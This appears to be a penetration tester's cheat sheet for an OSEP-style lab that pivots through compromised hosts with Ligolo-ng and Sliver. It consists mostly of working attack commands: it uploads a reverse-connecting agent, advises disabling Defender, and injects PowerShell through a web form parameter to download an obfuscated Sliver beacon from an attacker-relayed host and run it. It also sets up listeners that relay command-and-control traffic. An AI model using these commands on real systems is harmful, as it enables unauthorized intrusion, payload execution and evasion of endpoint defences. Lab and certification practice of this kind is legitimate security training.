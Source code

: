 # Ligolo

#### TIP: Make sure defender is disabled or ligolo might get removed

## Subnet Access

### 1) Upload the agent

    upload /home/kali/tools/ligolo-ng/agent.exe c:/windows/tasks/agent.exe
    ls c:/windows/tasks/agent.exe

### 2) Start the ligolo proxy on kali

    sudo /home/kali/tools/ligolo-ng/proxy -selfcert -laddr 10.10.10.11:4444


### 3) Delete the interfaces if already exist (in case ip ranges change on next connection)

    interface_delete --name osep-challenge
    interface_delete --name osep-challenge-vault

### 4) After starting, create a interface and assign route

    interface_create --name osep-challenge
    interface_route_add --name osep-challenge --route 10.10.100.0/24


### 5) Add another one

    interface_create --name osep-challenge-vault
    interface_route_add --name osep-challenge-vault --route 10.10.200.25/32

### 6) Connect from the victim machine back to attacker machine with interactive shell

    shell
    C:\Windows\tasks\agent.exe -connect 10.10.10.11:21 -ignore-cert -retry


Or run directly, will have to Ctrl + C and launch sliver again, don't worry though the process will keep running!

    execute -t 1000 -o C:\\Windows\\tasks\\agent.exe -connect 10.10.10.11:4444 -ignore-cert -retry

If you use it without -o it won't wait for console output and no need to ctrl + c

    execute C:\\Windows\\tasks\\agent.exe -connect 10.10.10.11:4444 -ignore-cert -retry

### 7) Select the session

    session


### 8) Start the tunnel 

    tunnel_start --tun osep-challenge
    tunnel_start --tun osep-challenge-vault

## Port Forwarding

In this scenario the machine machine05 can't access our machine kali but can access jump01 and we have compromised jump01

machine05 -> jump01:8000 -> kali:80 to download sliver implant from our apache2 server
machine05 -> jump01:8088 -> kali:8088 - for sliver beaconing

### 1) Create listener (from jump01:8000 -> kali:80)

    listener_add --addr 10.10.250.10:8000 --to 0.0.0.0:80

### 2) We'll use the IP of Jump01 - 10.10.250.10

    curl -k --negotiate -u : 'http://machine05.domain.com/Internal/GetCPULoad' -X POST -d 'machine05 -Class Win32_Processor);powershell.exe curl http://10.10.250.10:8000/;#'

### 3) Generate sliver beacon - IP of jump01

    generate beacon --http 10.10.250.10:8088 --name sliver.obfuscated --os windows --seconds 5 --jitter 0 --evasion

### 4) Get the sliver beacon

    sudo python3 -m http.server 80
    sudo chmod 777 /var/www/html/sliver.obfuscated.exe

### 5) Get shell access

    curl -k --negotiate -u : 'http://machine05.domain.com/Internal/GetCPULoad' -X POST -d 'machine05 -Class Win32_Processor);powershell.exe curl http://10.10.250.10:8000/sliver.obfuscated.exe -O C:\Windows\temp\sliver.obfuscated2.exe ;#'
    curl -k --negotiate -u : 'http://machine05.domain.com/Internal/GetCPULoad' -X POST -d 'machine05 -Class Win32_Processor);powershell.exe ls C:\Windows\temp\sliver.obfuscated2.exe ;#'

### 6) Create another listener (from jump01:8090 -> sliver:8088)

    listener_add --addr 10.10.250.10:8088 --to 10.10.10.11:8088

### 7) Run the .exe

    curl -k --negotiate -u : 'http://machine05.domain.com/Internal/GetCPULoad' -X POST -d 'machine05 -Class Win32_Processor);cmd.exe /c C:\Windows\temp\sliver.obfuscated2.exe ;#'
